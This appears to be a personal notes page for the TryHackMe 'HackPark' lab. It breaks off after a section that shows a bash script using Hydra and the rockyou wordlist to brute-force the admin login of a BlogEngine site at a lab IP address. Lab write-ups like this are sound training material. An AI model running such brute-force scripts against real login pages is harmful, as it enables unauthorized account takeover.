```yaml
---
layout: post
title: Hacking
tags: ['security', 'cryptography']
icon: shield-lock
---
```


## TryHackMe

###  HackPark

Includes:
  - Windows
  - Hydra 
    - brute forcing credentials
  - Web application exploits
    - File inclusion
    - Directory traversal
  - WinPEAS
  - Metasploit
    - Stabilizing shells
  - Privilege Escalation

We can browse to the server via the internet to find a blog called `BlogEngine`. From here we can find a login page & can use hydra to try and exploit this.

#### Hydra

Try to login using random credentials & capture the body of the post request and note and changes on the page that would indicate a failed login.

Using this information we can create a quick bash script to run a bruteforce hydra attack against the web form - using the post body as `$form` and replacing the username and password with `^USER^` & `^PASS^` for hydra to replace these with the values we give it to run through. And use 'Login failed' as our failure condition.

```bash
#!/bin/bash

form="__VIEWSTATE=<redacted-for-clarity>&__EVENTVALIDATION=<redacted-for-clarity>&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in"

hydra -vV -l admin -P /usr/share/wordlists/rockyou.txt \
10.10.186.90 http-post-form \
"/Account/login.aspx?ReturnURL=/admin/:$form:F=Login failed"
```

After about 30s we find the password and can now login.

#### Exploiting `BlogEngine`
